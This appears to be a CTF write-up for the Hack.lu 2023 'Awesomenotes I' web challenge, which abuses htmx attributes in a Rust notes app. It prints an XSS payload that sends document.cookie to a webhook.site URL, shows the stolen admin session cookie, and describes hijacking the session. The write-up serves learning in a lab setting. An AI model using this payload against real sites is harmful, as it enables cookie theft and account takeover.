




### Awesomenotes I - Hack.lu CTF 2023 - web



### Writeup



This challenge was a rust web app that allowed to create notes and report them to the admin bot. I noticed it was using htmx. Making use of htmx features we are able to craft the following payload:

```
<div hx-get="https://awesomenotes.online/api/note/14d307cce1a25fcfb8c46c59c0fe1b4340c4262b41a6bd00b885c91f295841b9#" hx-trigger="load" hx-target="this" hx-on="htmx:afterRequest: fetch('https://webhook.site/aee41236-1b4f-4a20-bfe0-7ea3ef83c7b0?a='+document.cookie)" >Click</div>
```

This payload above will just perform a request to the application using hx-get to a note I previously created (not important which one) and then it will trigger the hx-on="htmx:afterRequest which has javascript code, effectively performing XSS (cross-site scripting). In this case we will grab the session cookie from the admin bot and get it on webhook.site. I created the note above and reported it to the admin bot using the 'Report Terms of Service violation' feature of the app.



On the webhook.site we get the following request from the admin bot:

```
GET 	https://webhook.site/aee41236-1b4f-4a20-bfe0-7ea3ef83c7b0?a=session=ZHKJ4RTddRPYpVRgT9UIyp1Oou7TvlR8c4whTNhpxwTEUheyGFaUsQ4JtrHiDtla
```

Create or set your session cookie in the browser to the value above. Now if you go to https://awesomenotes.online/note/flag (main.rs line 63) you will be able to see the flag:

